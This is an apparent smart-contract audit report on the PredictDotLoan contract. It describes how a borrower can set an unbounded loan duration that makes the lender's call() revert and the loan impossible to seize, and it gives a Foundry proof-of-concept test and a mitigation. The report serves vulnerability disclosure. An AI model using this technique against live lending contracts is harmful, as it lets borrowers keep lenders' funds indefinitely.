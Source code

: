 Tiny Spruce Haddock

High

# Malicious borrower can create an unseizable loan due to lack of validation on the Proposal's duration

### Summary

The contract does not enforce any checks on the` Proposal.duration` parameter, allowing a malicious borrower to set a value so high that it will be impossible to seize the loan, leading to a complete loss of funds for the lender.

### Root Cause

The `Proposal.duration` parameter's complete lack of validation can allow a malicious borrower to forge a Proposal with an infinite duration, `type(uint256.max)`, making `call()` always revert from overflow.

As we can see below, this parameter, will be saved as the loan `minimumDuration`:
```solidity
function _createLoan(.., Proposal calldata proposal, ...) private {
    // snip
   loans[id].minimumDuration = proposal.duration;
   // snip
}
```

[`PredictDotLoan:call()`](https://github.com/sherlock-audit/2024-09-predict-fun/blob/41e70f9eed3f00dd29aba4038544150f5b35dccb/predict-dot-loan/contracts/PredictDotLoan.sol#L540) disallow from calling the loan until his duration has passed, that will panic overflow if `loan.minimumDuration == type(uint256).max`:

```solidity
if (loan.startTime + loan.minimumDuration > block.timestamp) {
    revert LoanNotMatured();
}
```

Additionally, the lender cannot auction the loan to someone else because only `Called` loans can be auctioned, as seen below:

```solidity
function auction(uint256 loanId) external nonReentrant whenNotPaused {
    Loan storage loan = loans[loanId];

    _assertLoanStatus(loan.status, LoanStatus.Called);

    // snip
}
```

Only the borrower can close the loan via [`repay()`](https://github.com/sherlock-audit/2024-09-predict-fun/blob/41e70f9eed3f00dd29aba4038544150f5b35dccb/predict-dot-loan/contracts/PredictDotLoan.sol#L454), since no `minumumDuration` is enforced in such function, but he's not incentivized at all since he will accrue infinite debt.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Malicious borrower forges a Proposal such that `duration == type(uint256.max)`
2. A lender accepts the Proposal
3. Now, the borrower, effectively has free money

### Impact

If a malicious borrower manages to get such `Proposal ` approved, he will have free money for eternity, since the lender cannot call or auction the loan.

### PoC

Add the following test to `PredictDotLoan.acceptBorrowRequest.t.sol`:

```solidity
function test_infitite_duration_seize_impossible() public {
    IPredictDotLoan.Proposal memory proposal = _generateBorrowRequest(IPredictDotLoan.QuestionType.Binary);
    proposal.from = borrower;
    proposal.duration = type(uint256).max;
    proposal.signature = _signProposal(proposal, borrowerPrivateKey);

    mockERC20.mint(lender, proposal.loanAmount);
    _mintCTF(borrower);

    vm.prank(lender);
    mockERC20.approve(address(predictDotLoan), proposal.loanAmount);

    vm.prank(borrower);
    mockCTF.setApprovalForAll(address(predictDotLoan), true);

    vm.startPrank(lender);
    predictDotLoan.acceptBorrowRequest(proposal, proposal.loanAmount);

    vm.warp(block.timestamp + 100 days);
    
    vm.expectRevert(); // 0x11 Panic Overflow
    predictDotLoan.call(1);
}
```

### Mitigation

Enforce a reasonable loan duration period in the loan acceptance logic.